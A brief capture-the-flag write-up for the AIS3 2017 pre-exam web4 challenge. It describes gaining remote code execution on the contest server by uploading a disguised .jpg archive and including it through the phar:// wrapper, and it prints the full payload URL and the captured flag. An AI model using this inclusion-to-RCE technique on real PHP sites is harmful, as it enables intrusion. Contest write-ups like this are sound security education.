

#AIS3 Pre-exam 2017: web4

##Solution
Continue from web3...
Use the same approach to get the uploaddddddd.php source code.
It let us upload only .jpg file, but with this we can upload a file to perform RCE.
However, this time "zip" wrapper is unregistered, but luckily "phar" wrapper still work.

Reference: https://github.com/pwning/public-writeup/blob/master/codegate2015/web200-owlur/writeup.md

> Payload: https://quiz.ais3.org:23545/?p=phar://./images/140.112.211.129/NakYkPcee.jpg/z&code=echo%20file_get_contents(%27the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l%27);

Flag:
>AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!}

